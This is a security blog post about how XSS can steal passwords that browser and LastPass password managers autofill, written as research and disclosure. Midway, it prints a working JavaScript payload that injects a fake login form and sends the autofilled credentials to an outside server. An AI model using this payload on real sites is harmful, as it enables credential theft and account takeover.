 ```yaml
---
layout: default
title: Abusing Password Managers with XSS
---
```

One common and effective mitigation against Cross-Site Scripting (XSS) is to set the HTTPOnly flag on session cookies. This will generally prevent an attacker from stealing users' session cookies with XSS. There are ways of circumventing this (e.g. the HTTP TRACE method), but generally speaking, it is fairly effective. That being said, an attacker can still cause significant damage without being able to steal the session cookie.

A variety of client-side attacks are possible, but an attacker is also often able to circumvent Cross-Site Request Forgery (CSRF) protections via XSS and thereby submit various forms within the application. The worst case scenario with this type of attack would be that there is no confirmation for email address or password changes and the attacker can change users' passwords. From an attacker's perspective this is valuable, but not as valuable as being able to steal a user's session. By reseting the password, the attacker is giving away his presence and the extent to which he is able to masquarade as another user is limited. While stealing the session cookie may be the most commonly cited method for hijacking user accounts, other means not involving changing user passwords exist.

All modern browsers come with some functionality to remember user passwords. Additionally, users will often install third-party applications to manage their passwords for them. All of these solutions save time for the user and generally help to prevent forgotten passwords. Third party password managers such as LastPass are also capable of generating strong, application specific passwords for users and then sending them off to the cloud for storage. Functionality such as this greatly improves the overall security of the username/password authentication model. By encouraging and facilitating the use of strong application specific passwords, users need not be as concerned with unreliable web applications that inadequately protect their data. For these and other reasons, password managers such as LastPass are generally considered within the security industry to be a good idea. I am a long time user of LastPass and have (almost) nothing but praise for their service.

An issue with both in-browser as well as third-party password managers that gets hardly any attention is how these can be abused by XSS. Because many of these password managers automatically fill login forms, an attacker can use JavaScript to read the contents of the form once it has been filled. The lack of attention this topic receives made me curious to see how exploitable it actually would be. For the purpose of testing, I built a simple PHP application with a functional login page aswell as a second page that is vulnerable to XSS (find them [here](https://gist.github.com/2346364)). I then proceded to experiment with different JavaScript, attempting to steal user credentials with XSS from the following password managers:

- LastPass (Current version as of April 2012)
- Chrome (version 17)
- Firefox (version 11)
- Internet Explorer (version 9)

I first visited my login page and entered my password. If the password manager asked me if I wanted it to be remembered, I said yes. I then went to the XSS vulnerable page in my application and experimented with different JavaScript, attempting to access the credentials stored by the browser or password manager. I ended up writing some JavaScript that was effective against the password managers listed above with the exception of IE:

{% highlight html %}
<script>
    ex_username = '';
    ex_password = '';
    inter = '';
    function attack(){
        ex_username = document.getElementById('username').value;
        ex_password = document.getElementById('password').value;
        if(ex_username != '' | ex_password != ''){
            document.getElementById('xss').style.display = 'none'
            request=new XMLHttpRequest();
            url = "http://btoe.ws/pwxss?username="+ex_username+"&password="+ex_password;
            request.open("GET",url,true);
            request.send();
            document.getElementById('xss').style.visibility='hidden';
            window.clearInterval(inter);
        }
    }
    document.write("
    <div id='xss'>
    <form method='post' action='index.php'>
    username:<input type='text' name='username' id='username' value='' autocomplete='on'><br>
    password:<input type='password' name='password' id='password' value='' autocomplete='on'><br>
    <input type='submit' name='login' value='Log In'>
    </form>
    </div>
    ");
    inter = window.setInterval("attack()",100);
</script>
{% endhighlight %}

All that this code does it create a fake login form on the XSS vulnerable page and then wait for it to be filled in by the browser or password manager. When the fields are filled, the JavaScript takes the values and sends them off to another server via a simple Ajax request. At first I had attempted to harness the ```onchange``` event of the form fields, but it turns out that this is unreliable across browsers (also, LastPass seems to mangle the form and input field DOM elements for whatever reason). Using ```window.setInterval```, while less elegant, is more effective.

If you want to try out the above code, go to [http://boomer.neohapsis.com/pwxss](http://boomer.neohapsis.com/pwxss) and login (username:**user1** password:**secret**). Then go to the reflections page and enter the slightly modified code listed there into the text box. If you told your password manager to remember the password for the site, you should see an alert  box with the credentials you previously entered. Please let me know if you find any vulns aside from XSS in this app.

To be honest, I was rather surprised that my simple trick worked in Chrome and Firefox. The LastPass plugin in the Chrome browser operates on the DOM level like any other Chrome plugin, meaning that it can't bypass event listeners that are watching for form submissions. The browsers, on the other hand could put garbage into the form elements in the DOM and wait until after the ```onsubmit``` event has fired to put the real credentials into the form. This might break some web applications that take action based on the ```onchange``` event of the form inputs, but if that is a concern, I am sure that the browsers could somehow fill the form fields without triggering this event.

The reason why this code doesn't work in IE (aside from the non-IE-friendly XHR request) is that the IE password manager doesn't automatically fill in user credentials. IE also seems to be the only one of the bunch that ties a set of credentials to a specific page rather than to an entire domain. While these both may be inconveniences from a usability perspective, they (inadvertantly or otherwise) improve the security of the password manager.

While this is an attack vector that doesn't get much attention, I think that it should. XSS is a common problem, and developers get an unrealistic sense of security from the HTTPOnly cookie flag. This flag is largely efective in preventing session hijacking, but user credentials may still be at risk. While I didn't get a chance to check them out when researching this, I would not be surprised if Opera and Safari had the same types of behavior.

I would be interested to hear a discussion of possible mitigations for this vulnerability. If you are a browser or browser-plugin developer or just an ordinary hacker, leave a comment and let me know what you think.
